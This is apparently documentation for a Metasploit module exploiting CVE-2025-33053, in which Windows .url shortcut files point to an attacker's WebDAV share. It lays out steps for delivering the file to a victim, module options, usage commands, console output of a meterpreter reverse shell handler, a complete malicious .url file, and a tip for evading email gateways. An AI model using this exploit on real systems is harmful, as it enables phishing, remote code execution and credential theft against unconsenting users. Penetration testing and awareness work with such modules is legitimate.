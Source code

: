 ## Vulnerable Application

CVE-2025-33053 - Internet Shortcut (.url) UNC Path Exploit

Windows improperly handles `.url` (Internet Shortcut) files referencing remote
UNC paths.
Specifically, `.url` files that specify a remote working directory
(`WorkingDirectory=\\attacker\webdav`) and a trusted executable (e.g.,
`iediagcmd.exe`)
may cause the system to access the attacker's server when opened.

This behavior can be exploited to:

- Trigger NTLM authentication leaks (SMB relay)
- Load remote payloads via WebDAV shares
- Attempt DLL sideloading if conditions allow

## Affected Versions

- Windows 10 22H2
- Windows 11 23H2
- Fully patched prior to June 2025 Patch Tuesday

## Verification Steps

1. Set up the WebDAV server.
2. Use the module to generate a `.url` file
3. Deliver the `.url` to the target (email, USB, zip)
4. On victim machine, open `.url`
5. Observe connection back to WebDAV server

## Overview

This module generates a malicious `.url` Internet Shortcut file that abuses
CVE-2025-33053 —
a vulnerability in how Windows handles `.url` files referencing remote UNC
paths.

When opened on a vulnerable system, the `.url` causes the system to connect to a
UNC path
(e.g., a WebDAV share), triggering an attempt to execute a trusted binary
from the attacker's location. This can result in RCE or credential leaks.

It supports:

- Auto-generating a reverse shell payload
- Hosting the payload in a WebDAV share
- Launching a Metasploit handler

## Module Information

**Module Name**: exploits/windows/fileformat/cve_2025_33053
**Authors**:

- Dev Bui Hieu

**Disclosure Date**: 2025-06-11
**License**: MSF_LICENSE
**Rank**: Normal

## Options

### GEN_PAYLOAD

Whether to generate payload and move to WebDAV directory (default: true)

### START_LISTENER

Whether to auto-start a Metasploit multi/handler (default: true)

### WEBDAV_DIR

WebDAV folder for payload and .url (default: /var/www/webdav)

### OUTFILE

Output .url filename (default: bait.url)

### LOLBAS_EXE

Path to a trusted executable to launch (default: iediagcmd.exe)

### ICON_PATH

Icon used for the shortcut (default: msedge.exe)

### ICON_INDEX

Index of the icon in the icon file (default: 13)

### MODIFIED_HEX

Modified timestamp value for the .url file (default: 20F06BA06D07BD014D)

## Scenarios

You can use this module in:

- Phishing simulations
- Red team operations
- Awareness training
- DLL sideloading test
- Drive-by UNC path abuse

## Example Usage

```console
use exploits/windows/fileformat/cve_2025_33053
set LHOST 192.168.1.10
run
```console

Optional:

```console
set WEBDAV_DIR /var/www/webdav
set OUTFILE clickme.url
set PAYLOAD windows/x64/meterpreter/reverse_http
run
```console

## Output

msf6 > use exploit/windows/fileformat/cve_2025_33053
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/fileformat/cve_2025_33053) > set LHOST 192.168.1.15
LHOST => 192.168.1.15
msf6 exploit(windows/fileformat/cve_2025_33053) > run
[*] Started reverse TCP handler on 192.168.1.15:4444 
[*] Creating WebDAV directory if not exists...
[+] Generating payload at: /var/www/webdav/payload.exe
[+] Payload successfully written to /var/www/webdav/payload.exe
[+] .URL file written to: /home/kali/bait.url
[*] Module complete. Deliver /home/kali/bait.url to victim.

Example .url file:

```console
[InternetShortcut]
URL=C:\Program Files\Internet Explorer\iediagcmd.exe
WorkingDirectory=\\192.168.1.10\webdav\
ShowCommand=7
IconIndex=13
IconFile=C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe
Modified=20F06BA06D07BD014D
```console

## References

- [GitHub PoC](https://github.com/DevBuiHieu/CVE-2025-33053-Proof-Of-Concept)
- [NVD Entry](https://nvd.nist.gov/vuln/detail/CVE-2025-33053)
- [LOLBAS Project](https://lolbas-project.github.io)
- [Microsoft Advisory](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2025-33053)

## Notes

- Payload hosted via WebDAV must be reachable from the victim
- On patched systems, SmartScreen or Defender may block the connection
- Zip `.url` to evade email gateway protections
- Listener starts automatically if `START_LISTENER` is true
